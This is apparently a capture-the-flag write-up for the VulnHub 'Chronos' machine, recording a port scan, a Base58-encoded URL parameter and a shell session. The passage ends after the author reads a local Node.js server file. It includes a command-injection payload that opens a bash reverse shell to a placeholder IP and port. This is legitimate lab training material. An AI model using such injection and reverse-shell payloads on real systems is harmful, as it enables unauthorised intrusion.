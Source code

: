 # Chronos

![image](https://user-images.githubusercontent.com/5285547/129067750-516ca744-9b4c-4347-982f-5d4a36e431e9.png)

Room link: https://www.vulnhub.com/entry/chronos-1,735/

## Enum

Nmap 

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8000/tcp open  http-alt
```


# Port 80

Nothing much on the home page, refreshing and checking in the dev networks tools shows a strage url request

![image](https://user-images.githubusercontent.com/5285547/129068515-2591006b-ed4a-411c-99f3-540e35be3aef.png)


```
http://chronos.local:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL
```

Add chronos.local to /etc/hosts file

Now on the page we see the result. 

![image](https://user-images.githubusercontent.com/5285547/129071126-5810cb0f-273c-473e-a8de-a117fc8b32d9.png)

Checking the encoding, it turns out its Base58

![image](https://user-images.githubusercontent.com/5285547/129075155-f2d4cab2-28b4-4fa5-94e0-bb741ec74391.png)

![image](https://user-images.githubusercontent.com/5285547/129083902-4b104c8a-ba76-4b90-9a19-8ddf1f623217.png)

Next was to get a reverse shell. 

```
# payload
;bash -c "bash -i >& /dev/tcp/IP/PORT 0>&1";
```

![image](https://user-images.githubusercontent.com/5285547/129084566-7f38c45b-3083-47b7-b3c5-667bcac3b5e2.png)

Finding another webserice on 127.0.0.1:8080, I checked the system for the files. 

```
www-data@chronos:/opt/chronos-v2/backend$ pwd
/opt/chronos-v2/backend
```
```
www-data@chronos:/opt/chronos-v2/backend$ cat server.js 
const express = require('express');
const fileupload = require("express-fileupload");
const http = require('http')

const app = express();

app.use(fileupload({ parseNested: true }));

app.set('view engine', 'ejs');
app.set('views', "/opt/chronos-v2/frontend/pages");

app.get('/', (req, res) => {
   res.render('index')
});

const server = http.Server(app);
const addr = "127.0.0.1"
const port = 8080;
server.listen(port, addr, () => {
   console.log('Server listening on ' + addr + ' port ' + port);
});
```


